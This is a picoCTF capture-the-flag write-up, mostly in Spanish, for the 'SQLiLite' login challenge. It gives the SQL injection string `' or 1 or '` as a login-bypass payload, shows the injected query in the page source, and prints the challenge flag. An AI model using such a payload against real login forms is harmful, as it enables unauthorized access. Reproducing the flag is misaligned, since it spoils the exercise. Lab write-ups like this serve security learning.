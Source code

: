 # SQLiLite


## Description

Can you login to this website? Try to login [here](http://saturn.picoctf.net:55014/).

---
## Hints 1

* `admin` is the user you want to login as.

## Solución

Entramos al sitio web proporcionado, una vez así nos pedira un username y una password, entonces ingresaremos lo siguiente:
`' or 1 or '` 
Y para la contraseña copiamos el mismo:
`' or 1 or '` 

Le damos en login y nos manda a la siguiente página:
![[Pasted image 20250403212117.png]]

Después damos clic derecho y en **ver código fuente** y nos muestra el siguiente código en el cual nos muestra nuestra flag:
```
<pre>username: &#039; or 1 or &#039; password: &#039; or 1 or &#039; SQL query: SELECT * FROM users WHERE name=&#039;&#039; or 1 or &#039;&#039; AND password=&#039;&#039; or 1 or &#039;&#039; </pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```
### Respuesta: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}